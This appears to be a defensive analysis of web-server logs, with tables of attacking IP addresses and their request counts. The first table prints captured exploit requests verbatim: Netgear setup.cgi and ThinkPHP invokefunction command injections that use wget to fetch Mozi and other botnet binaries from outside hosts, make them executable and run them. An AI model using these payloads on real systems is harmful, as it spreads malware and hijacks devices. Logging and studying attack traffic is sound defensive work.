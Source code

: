 ## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                 |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 61.3.143.187   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://61.3.143.187:45911/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                             |
| 112.239.99.91  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                   |
| 58.44.133.4    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                               |
| 27.43.207.70   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                               |
| 27.43.205.236  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                               |
| 45.148.10.235  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                               |
| 204.76.203.18  | GET /wget.sh HTTP/1.1                                                                                                                                                                                                                   |
| 217.160.89.196 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.137.70.156/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 185.233.117.25 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://152.42.234.215/bns/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 58.58.30.134   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 180.229.15.76  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 118.254.150.10 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |
| 180.153.27.22  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1           |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   827 | 204.76.203.18   |
|   1 |                   345 | 144.126.146.166 |
|   2 |                   116 | 45.148.10.34    |
|   3 |                   107 | 45.148.10.35    |
|   4 |                    73 | 92.255.57.58    |
|   5 |                    59 | 45.148.10.90    |
|   6 |                    56 | 78.153.140.224  |
|   7 |                    53 | 185.16.38.107   |
|   8 |                    51 | 45.148.10.235   |
|   9 |                    45 | 185.213.173.44  |
|  10 |                    45 | 92.55.190.215   |
|  11 |                    45 | 143.110.153.103 |
|  12 |                    43 | 78.153.140.203  |
|  13 |                    41 | 178.211.139.120 |
|  14 |                    36 | 185.91.127.81   |
|  15 |                    36 | 141.98.11.175   |
|  16 |                    35 | 95.214.53.106   |
|  17 |                    32 | 51.159.103.17   |
|  18 |                    27 | 164.52.24.188   |